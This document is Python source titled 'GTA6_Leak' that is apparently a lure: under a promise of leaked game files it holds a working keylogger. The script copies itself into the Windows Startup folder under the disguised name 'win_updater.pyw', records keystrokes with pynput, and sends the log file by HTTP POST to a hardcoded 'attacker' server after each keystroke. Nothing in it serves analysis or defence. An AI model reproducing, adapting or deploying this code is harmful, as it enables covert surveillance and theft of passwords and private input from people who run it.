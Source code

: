 # GTA6_Leak
#Enjoy
import os
import json
import requests
import shutil
from pynput import keyboard
from pathlib import Path

# -------------- ADD TO STARTUP SECTION --------------
def add_to_startup():
    startup_dir = os.path.join(os.environ['APPDATA'], r"Microsoft\Windows\Start Menu\Programs\Startup")
    script_path = os.path.realpath(_file) 
    target_path = os.path.join(startup_dir, "win_updater.pyw")  # disguise the name

    if not os.path.exists(target_path):
        shutil.copy(script_path, target_path)
        print("[+] Added to startup.")
    else:
        print("[=] Already in startup.")

add_to_startup()

key_list = []
x = False
log_file = 'logs.json'
START_LOGGING = False

# ✅ Update this to your attacker's IP
ATTACKER_SERVER = 'http://192.168.1.71:5000/upload'


def send_logs():
    try:
        with open(log_file, 'rb') as f:
            files = {'logfile': f}
            response = requests.post(ATTACKER_SERVER, files=files)
            print(f"[*] Sent log to attacker. Status code: {response.status_code}")
    except Exception as e:
        print(f"[!] Failed to send logs: {e}")


def update_json_file(key_list):
    with open(log_file, 'wb+') as key_log:
        key_log.write(json.dumps(key_list, indent=4).encode())
    send_logs()


def on_press(key):
    global x, START_LOGGING
    if key == keyboard.Key.f9:
        START_LOGGING = True
        print("[*] Logging activated.")

    if START_LOGGING:
        if not x:
            key_list.append({'Pressed': f'{key}'})
            x = True
        else:
            key_list.append({'Held': f'{key}'})
        update_json_file(key_list)


def on_release(key):
    global x
    if key == keyboard.Key.esc:
        print("[!] ESC pressed — exiting keylogger.")
        os._exit(0)

    if START_LOGGING:
        key_list.append({'Released': f'{key}'})
        update_json_file(key_list)

    x = False


# ✅ Start the keylogger listener
with keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()
